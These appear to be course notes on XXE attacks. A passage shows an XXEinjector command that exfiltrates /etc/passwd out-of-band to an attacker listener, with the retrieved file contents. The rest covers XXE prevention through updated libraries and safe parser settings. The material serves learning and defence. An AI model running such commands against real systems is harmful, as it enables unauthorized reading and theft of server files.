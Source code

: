 We will also select the ``--oob=http`` and ``--phpfilter`` flags to repeat the OOB attack we did above, as follows:
```bash
$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```
We see that the tool did not directly print the data. 

This is because we are **base64 encoding** the data, so it does not get printed. In any case, all exfiltrated files get stored in the ``Logs`` folder under the tool, and we can find our file there:
```bash
$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```
## XXE Prevention
We have seen that XXE vulnerabilities mainly occur when an unsafe XML input references an external entity, which is eventually exploited to read sensitive files and perform other actions. 

Preventing XXE vulnerabilities is relatively easier than other web vulnerabilities, as they are caused mainly by **outdated XML libraries**.
### Avoiding Outdated Components
While other input validation web vulnerabilities are usually prevented through secure coding practices (e.g., **XSS**, **IDOR**, **SQLi**, **OS Injection**), this is not entirely necessary to prevent XXE vulnerabilities. 

This is because XML input is usually not handled manually by the web developers but by the built-in XML libraries instead. So, if a web app is vulnerable to XXE, this is very likely due to an outdated XML library that parses the XML data.

For example, PHP's [libxml_disable_entity_loader](https://www.php.net/manual/en/function.libxml-disable-entity-loader.php) function is deprecated since it allows a developer to enable external entities in an unsafe manner, which leads to XXE vulnerabilities. If we visit PHP's documentation for this function, we see the following warning:
![[Pasted image 20250127165503.png]]
Furthermore, even common code editors (e.g., **VSCode**) will highlight that this specific function is deprecated and will warn us against using it: ![[web_attacks_xxe_deprecated_warning.jpg]]
In addition to updating the XML libraries, we should also update any components that parse XML input, such as API libraries like **SOAP**. 

Furthermore, any document or file processors that may perform XML parsing, like SVG image processors or PDF document processors, may also be vulnerable to XXE vulnerabilities, and we should update them as well.

These issues are not exclusive to XML libraries only, as the same applies to all other web components (e.g., outdated `Node Modules`). In addition to common package managers (e.g. `npm`), common code editors will notify web developers of the use of outdated components and suggest other alternatives. 
### Using Safe XML Configurations
Other than using the latest XML libraries, certain XML configurations for web apps can help reduce the possibility of XXE exploitation. These include:
- Disable referencing custom `Document Type Definitions (DTDs)`
- Disable referencing `External XML Entities`
- Disable `Parameter Entity` processing
- Disable support for `XInclude`
- Prevent `Entity Reference Loops`